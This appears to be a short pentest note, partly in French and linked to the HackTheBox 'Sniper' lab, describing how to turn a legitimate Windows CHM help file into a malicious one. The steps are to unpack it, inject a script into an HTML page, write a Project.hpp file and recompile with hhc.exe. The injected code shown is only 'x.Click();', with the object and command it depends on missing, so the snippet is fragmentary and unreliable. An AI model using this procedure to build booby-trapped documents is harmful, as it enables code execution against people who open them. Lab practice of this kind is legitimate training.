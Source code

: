# fichier chm

(hackthebox: VM sniper pour avoir un CHM malicieux à modifier ensuite avec les utilitaires Windows (lire le tuto ci-dessous))


## Procedure for generating Malicious CHM file

0. Download and install [**Microsoft HTML Help Workshop and Documentation**](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/htmlhelp/microsoft-html-help-downloads)
1. Obtain a valid CHM file and unpack it using 7-zip
2. Find an entry-point HTML file within "_docs_" directory and insert the following code into it's `<body>` section:

```xml

<SCRIPT>
  x.Click();
</SCRIPT>
```

3. Prepare `Project.hpp` file with contents like the below ones:

```txt
[OPTIONS]
Contents file=<PATH-TO-UNPACKED-CHM-DIRECTORY>\Table of Contents.hhc
[FILES]
<PATH-TO-UNPACKED-CHM-DIRECTORY>\docs\Malicious-File.htm
```

Add every file needed by that CHM to the `FILES` section. Remember to include also previously modified malicious HTM file.


4. Compile the project within CHM directory using `hpp.exe` compiler:

```batch
<PATH-TO-UNPACKED-CHM-DIRECTORY> "C:\Program Files (x86)\HTML Help Workshop\hhc.exe" Project.hpp
Microsoft HTML Help Compiler 4.74.8702

Compiling <PATH-TO-UNPACKED-CHM-DIRECTORY>\Project.chm


Compile time: 0 minutes, 1 second
353     Topics
7,208   Local links
187     Internet links
2       Graphics


Created <PATH-TO-UNPACKED-CHM-DIRECTORY>\Project.chm, 817,791 bytes
Compression decreased file by 2,091,702 bytes.
```

5. Exploit.

